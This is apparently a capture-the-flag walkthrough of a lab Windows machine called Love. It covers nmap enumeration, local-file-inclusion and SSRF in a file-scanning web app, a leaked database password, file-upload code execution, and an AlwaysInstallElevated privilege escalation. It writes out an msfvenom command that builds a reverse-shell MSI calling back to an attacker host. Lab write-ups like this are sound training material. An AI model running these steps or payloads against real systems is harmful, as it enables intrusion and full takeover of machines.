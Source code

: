 # Enumeration

As always, starting with nmap
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-28 16:52 IST
Nmap scan report for 10.10.10.239
Host is up (0.34s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h53m00s, deviation: 4h02m31s, median: 32m59s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-28T04:55:50-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-28T11:55:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.62 seconds
```
Looking at the results, we have quite a few ports to enumerate:
- HTTP/HTTPS on 80,443 and 5000
- SMB on 135/445
- MySQL on 3306

Also from the results, we can find the domain and subdomains from HTTPS certificate. In our case, we have `staging.love.htb`, add this to hosts file.

### Love.htb
Navigating to webpage,

![image](https://user-images.githubusercontent.com/94787830/145250939-ff62f037-0568-41c5-b245-845ef76ca512.png)

Trying some common set of credentials didn't work. Also basic SQL injections didn’t lead anywhere either.

### Staging.love.htb
It was running a file scanning application.

![image](https://user-images.githubusercontent.com/94787830/145251478-188b6396-b848-44cb-b7c1-d461ac37ba0e.png)

In the nav bar at the top, Demo goes to `/beta.php`, where there’s a form that takes a url:
![image](https://user-images.githubusercontent.com/43528306/120352563-8142b580-c31e-11eb-99d5-5f43aab3865a.png)

Here, we can specify files we need to scan. Tried checking for RFI, it does connect back to us but not able to execute the file. 
Looking around, Googling the error messages, we were able to find the directory structure of the xampp files on target system.

We can exploit the LFI vulnerability, and download the source of the webpage.
Looking at `C:\xampp\apache\conf\extra\httpd-vhosts.conf`, found the vhosts configuration which tell the exact directory of files located. 
Looking at some interesting files:

- ***Conn.php***
```php
<?php
	$conn = new mysqli('localhost', 'phoebe', 'HTB#9826^(_', 'votesystem');

	if ($conn->connect_error) {
	    die("Connection failed: " . $conn->connect_error);
	}
	
?>
```

- ***Sessions.php***
```php
?php
	include 'includes/conn.php';
	session_start();

	if(isset($_SESSION['voter'])){
		$sql = "SELECT * FROM voters WHERE id = '".$_SESSION['voter']."'";
		$query = $conn->query($sql);
		$voter = $query->fetch_assoc();
	}
	else{
		header('location: index.php');
		exit();
	}

?>
```
From above, we found the username. Trying to get the user flag using paylaod `file://C:\users\phoebe\desktop\user.txt` and we got the file. This whole part seems more like a rabbit hole.

#### SSRF
We were able to make request to our IP from the server. We could try checking if we can access other ports using this functionality
![image](https://user-images.githubusercontent.com/43528306/120333224-19d03a00-c30d-11eb-83de-786e503b8916.png)

We got credentials for Voting System using which we have admin rights on the application. After poking a bit with application, found it was vulnerable to **File Upload** Vulnerability in *Add voters* Functionality.
We can now upload a malicious PHP file and get RCE on the box. 

In order to get reverse shell, we need to first upload `nc`(netcat) on the box.

## ROOT

Running [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), which is windows enumeration script. The output shows it was vulnerable to `Alwaysinstallelevated`.

```batch
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

With help of this [article](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/). We can create a malicious .msi file which will give us reverse shell as system

```bash
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.0.2.4 LPORT=1337 --encoder x64/xor --iterations 9 --format msi --out out.msi
```
Now we can upload our malicious .msi file, and running it gave back us shell as administrator.

